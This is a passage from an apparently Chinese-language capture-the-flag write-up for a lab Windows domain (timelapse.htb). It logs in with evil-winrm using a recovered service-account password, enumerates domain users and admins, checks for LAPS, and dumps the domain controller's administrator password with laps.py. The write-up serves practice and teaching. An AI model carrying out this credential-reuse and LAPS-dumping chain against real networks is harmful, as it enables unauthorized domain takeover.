 可以看到`svc_deploy`用户的密码为`E3R$Q62^12p7PLlC%KWaxuaV`

使用`evil-winrm`进行密码登录`evil-winrm -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'  -i 10.10.11.152 -S`.

检查域相关内容。`cmder -p  db/windows/CMD_usefull_commands/2_domain.xd`

查看所有域账号

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc_deploy\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.
```

查看管理员账号

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc_deploy\Documents> net group "Domain Admins" /domain
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            payl0ad                  thecybergeek
TRX
The command completed successfully.
```

判断是否有应用了LAPS(Local Administrator Password Solution)

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc_deploy\Documents> reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
```


`cmder -p db/windows/0_privilege_escalation/2_logging_enumeration.xd`

```bash
root@145a5d706052 /t/b/workspace# cmder use -r 4
[✓] Executing: laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb
DC01$:LK/yg#uFR)x)Q3z!a[.080Tb
```

获得了DC01域控的管理员密码: `LK/yg#uFR)x)Q3z!a[.080Tb`
DC01的管理员就是`Administrator`，所以我们可以通过这个密码进行登录了
